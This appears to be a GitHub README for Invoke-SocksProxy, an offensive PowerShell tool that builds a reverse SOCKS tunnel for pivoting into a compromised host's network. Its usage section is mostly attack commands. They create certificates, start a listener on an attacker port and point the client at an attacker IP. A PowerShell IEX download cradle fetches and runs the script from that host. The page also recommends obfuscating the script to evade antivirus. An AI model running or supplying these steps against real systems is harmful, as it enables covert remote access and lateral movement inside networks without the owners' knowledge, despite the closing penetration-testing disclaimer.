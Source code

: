 # Invoke-SocksProxy
Creates a local or "reverse" Socks proxy using powershell.

The local proxy is a simple Socks 4/5 proxy.

The reverse proxy creates a tcp tunnel by initiating outbond SSL connections that can go through the system's proxy. The tunnel can then be used as a socks proxy on the remote host to pivot into the local host's network.

Modified from [Invoke-SocksProxy](https://github.com/p3nt4/Invoke-SocksProxy) due to deprecation issues with SSL, etc.

# Usage

## Server
Create server SSL certificates
```sh
openssl req -x509 -newkey rsa:2048 -nodes -keyout /tmp/private.key -out /tmp/cert.pem -subj "/CN=whatever.com" -days 9999 &>/dev/null
fingerprint=$(openssl x509 -in /tmp/cert.pem -noout -sha1 -fingerprint | cut -d "=" -f 2 | tr -d ":")
echo "Use $fingerprint for <cert_fingerprint>"
```

Run the socks proxy server via python3 on port 1080:
```sh
python3 SocksProxyServer.py <attacker_port> 1080 /tmp/cert.pem /tmp/private.key
```

## Client
Add this to the end of `Invoke-SocksProxy.ps1`
```sh
Invoke-ReverseSocksProxy -remotePort <attacker_port> -remoteHost <attacker_ip> -maxRetries 3 -certFingerprint <cert_fingerprint>
```
```sh
powershell IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/Invoke-SocksProxy.ps1')
```
For AV evasion, you can obfuscate easily with [Invoke-Stealth](https://github.com/JoelGMSec/Invoke-Stealth)

# Disclaimer
This project is intended for security researchers and penetration testers and should only be used with the approval of system owners.